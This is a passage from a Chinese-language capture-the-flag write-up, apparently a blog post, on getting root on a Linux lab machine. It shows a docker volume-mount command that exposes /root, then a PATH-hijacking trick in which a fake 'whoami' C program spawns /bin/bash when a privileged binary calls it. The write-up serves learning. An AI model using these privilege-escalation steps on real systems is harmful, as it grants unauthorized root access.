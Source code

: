 ```
docker run -it -v /root:/root ubuntu:latest /bin/bash
```

成功获得flag:
![818602_Y3D2DAYVX29YT82](/blog.github.io/images/818602_Y3D2DAYVX29YT82.png)

### 命令劫持

其实最后一个提取，我们还可以利用命令劫持的方法，因为我们发现在目标机器的desktop上面有一个程序，运行之后会输出root字样，然后用strings命令还看到了whoami字样：
![818602_G78B4JY8YZ7J62T](/blog.github.io/images/818602_G78B4JY8YZ7J62T.png)
所以，我们猜测这个程序是root权限并且程序里面掉用了system("whoami")命令，所以我们可以把想办法把whoami这个命令在机器上替换为system("/bin/bash")，利用pwn的思想来提取；
查找一下PATH的位置：
![818602_MCW3EXHE98THGFB](/blog.github.io/images/818602_MCW3EXHE98THGFB.png)
现在命令劫持就非常方便了；
whoami.c:

```
#include <stdlib.h>
int main(void) {
    system("/bin/bash");
    return 0;
}
```

然后我们编译它得到可执行文件whoami，然后在创建一个bin文件夹，将whoami放进去：
![818602_E4QQPF2ZCAUU27Y](/blog.github.io/images/818602_E4QQPF2ZCAUU27Y.png)
最后运行a.out程序即可提取：
![818602_7R2C4QTNKTCMFF7](/blog.github.io/images/818602_7R2C4QTNKTCMFF7.png)